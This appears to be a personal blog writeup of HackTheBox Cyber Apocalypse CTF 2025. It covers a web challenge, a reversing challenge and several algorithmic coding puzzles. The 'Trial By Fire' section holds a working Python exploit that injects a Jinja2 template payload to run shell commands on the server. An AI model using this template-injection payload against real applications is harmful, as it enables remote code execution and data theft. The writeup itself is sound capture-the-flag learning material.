


+++
date = '2025-03-29T12:18:19+05:30'
title = 'Cyber Apocalypse CTF 2025'
summary = 'Writeup for Cyber Apocalypse CTF 2025'
tags = ['CTF', 'HackTheBox', '2025']
+++

# Web

## Trial By Fire

After downloading the challenge zip file and looking at the code, we can see that the `POST /battle-report` API does not validate or escape the `warrior_name` before adding it to the template.

To exploit this vulnerability, we will have to
1. Create a new session with the exploit code as the `warrior_name` by calling the `/begin` API.
1. Call the vulnerable `/battle-report` API to execute the payload.



### Exploit Code
```python
import re
import argparse
import requests

CMD = "cat /app/flag.txt"
PAYLOAD = "{{self.__init__.__globals__.__builtins__.__import__('os').popen('" + CMD + "').read()}}"

def main(base_url: str):

	with requests.Session() as session:
		# Get session token
		session.post(f"{base_url}/begin", {"warrior_name": PAYLOAD } )

		# Send API request to vulnerable endpoint
		response = session.post(f"{base_url}/battle-report")

		match = re.search("HTB{.*}", response.text)
		print(f"Flag: {match.group(0)}")

if __name__ == '__main__':
	parser = argparse.ArgumentParser()
	parser.add_argument("url")
	args = parser.parse_args()

	main(args.url)
```

### References
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)

# Rev

## Encrypted Scroll

Opening the executable in Ghidra we can see that the `decrypt_message` function decrypts the flag by subtracting 1 from the ASCII value of the flag. So to get the flag we also have to subtract 1 from the value of the flag. Also keeping in mind that the flag is stored in the Little-endian format we will have to reverse each string in order to get the flag.



### Solution
```python
from functools import reduce

def split_str(s):
    return list(reversed([s[i:i+2] for i in range(0, len(s), 2)]))

enc_flag = [0x716e32747c435549, 0x6760346d, 0x6068356d, 0x75327335, 0x7e643275346e69]

enc_flag = [split_str(hex(data)[2:]) for data in enc_flag]
enc_flag = reduce(lambda x, y: x + y, enc_flag)

flag = ''.join(chr(int(data, 16) - 1) for data in enc_flag)
print(flag)
```

# Coding

## Summoners Incantation

To solve this question, iterate over the array and find the largest sum. For each element in the array we need to check if the current element is larger or the current element and the previous maximum sum is larger (since the array can have negative elements as well).

### Solution
```python
import json

a = json.loads(input())
dp = [0] * len(a)
for i in range(0, len(a)):
    dp[i] = a[i]
    for j in range(i - 2, -1, -1):
        dp[i] = max(dp[i], a[i] + dp[j])

print(max(dp))
```

## ClockWork Gurdian

To find the shortest path in the grid, we will have to recursively call the function, where each call to the function will be a different cell in the grid. The base condition would be if we reached the end (`grid[i][j] = 3`) or if the neighboring cells have already been visited (which will be marked by `grid[i][j] = 5`). The distance of the current array to the end is computed by choosing the neighbor with the minimum distance to the end and adding 1 to it.

### Solution
```python
import json

MAX = int(1e9)
moves = [[0, 1], [0, -1], [1, 0], [-1,0]]

def is_valid_move(x: int, y: int) -> bool:
    return (0 <= x) and (x < n) \
            and (0 <= y) and (y < m)

def dfs(x, y):
    if grid[x][y] == 3: return 0
    grid[x][y] = 5

    distances = []
    for i in range(len(moves)):
        dx, dy = moves[i]
        if is_valid_move(x + dx, y + dy) \
                and grid[x + dx][y + dy] in (0, 3):
            distances.append(dfs(x + dx, y + dy))

    grid[x][y] = 0

    return min(distances) + 1 if len(distances) > 0 else MAX

if __name__ == '__main__':
    grid = json.loads(input().replace("'E'", "3"))
    n, m = len(grid), len(grid[0])
    distances = [[int(MAX)] * m for _ in range(n)]

    print(dfs(0, 0))
```

## Enchanted Cipher

### Solution
```python
import json

def unshift(c: chr, shift: int) -> chr:
    return chr(ord('a') + (ord(c) - ord('a') - shift) % 26)

def main():
    s = input()
    n = int(input())
    a = json.loads(input())
    t = list(filter(lambda x: x.isalpha(), s))

    plaintext = []
    for i in range(0, len(t), 5):
        shift = a[i // 5]
        for x in t[i:i+5]:
            plaintext.append(unshift(x, shift))

    answer = []
    j = 0
    for i in range(len(s)):
        if s[i].isalpha():
            answer.append(plaintext[j])
            j += 1
        else:
            answer.append(s[i])
    print(''.join(answer))

if __name__ == '__main__':
    main()
```

## Dragon Fury

For this question we try every possible combination and print the first combination whose sum equals to the given number.

### Solution
```python
import json

def solve(a: list[int], current_level: int, i: int, target: int) -> (list[int], bool):
    if current_level >= len(a) or target < 0:
        return ([], False)

    target -= a[current_level][i]
    if target == 0 and current_level == len(a) - 1:
        return ([a[current_level][i]], True)

    if current_level + 1 >= len(a):
        return ([], False)

    answer = []
    for j in range(len(a[current_level + 1])):
        b, found = solve(a, current_level + 1, j, target)
        if found:
            return ([a[current_level][i]] + b, True)

    return ([], False)

def main() -> None:
    a: list[int] = json.loads(input())
    target: int = int(input())

    answer: list[int] = []
    for i in range(len(a[0])):
        answer, found = solve(a, 0, i, target)
        if found:
            break

    print(answer)

if __name__ == '__main__':
    main()
```

## Dragon Flight

This is an extension of the maximum contiguous subarray problem. We need to update the array as well as compute the maximum contiguous subarray on each `Q` query.

To solve the maximum contiguous subarray problem, we iterate over each element in the array and check if the current value is greater than the sum of the the current value and the previous maximum sum.

### Solution
```python
def maximum_contiguous_subarray(a, l, r):
    answer = int(-1e9)
    max_sum = int(-1e9)
    for i in range(l, r + 1):
        max_sum = max(max_sum + a[i], a[i])
        answer = max(answer, max_sum)
    return answer

def main():
    n, q = map(int, input().split())
    a = list(map(int, input().split()))
    for _ in range(q):
        operation, x, y = input().split()
        x, y = int(x), int(y)

        if operation == "U":
            a[x - 1] = y
        else:
            print(maximum_contiguous_subarray(a, x - 1, y - 1))

if __name__ == '__main__':
    main()
```
